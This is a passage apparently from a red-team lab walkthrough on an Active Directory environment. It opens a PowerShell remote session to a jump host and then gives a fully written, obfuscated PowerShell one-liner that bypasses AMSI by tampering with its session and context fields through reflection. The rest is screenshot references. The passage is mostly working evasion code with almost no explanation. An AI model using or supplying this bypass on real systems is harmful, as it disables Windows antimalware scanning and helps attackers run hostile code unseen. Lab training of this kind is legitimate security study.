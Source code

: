 ```
Enter-PSSession -ComputerName US-Jump.us.techcorp.local
```

![picture 32](images/e8434f27a132f7c63cb8d3c10504ee3bc6c47c778d56fdd73c50d9b921e5e0a8.png)  

<br/>

First bypass AMSI:

```
$BWZQCXH=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((29197492/3217));[Ref].Assembly.GetType("System.Management.Automation.$([sysTem.net.wEbutILITY]::hTmldEcodE('&#65;&#109;&#115;&#105;'))Utils").GetField("$([CHAr]([ByTE]0x61)+[ChaR]([byTE]0x6D)+[char](147-32)+[cHAR]([BYtE]0x69))Session", "NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.$([sysTem.net.wEbutILITY]::hTmldEcodE('&#65;&#109;&#115;&#105;'))Utils").GetField("$([CHAr]([ByTE]0x61)+[ChaR]([byTE]0x6D)+[char](147-32)+[cHAR]([BYtE]0x69))Context", "NonPublic,Static").SetValue($null, [IntPtr]$BWZQCXH);
```

![picture 33](images/8e4188c87eba578f637dc99a7b313695e31ed6adc18d11725e159094b8560ebe.png)  
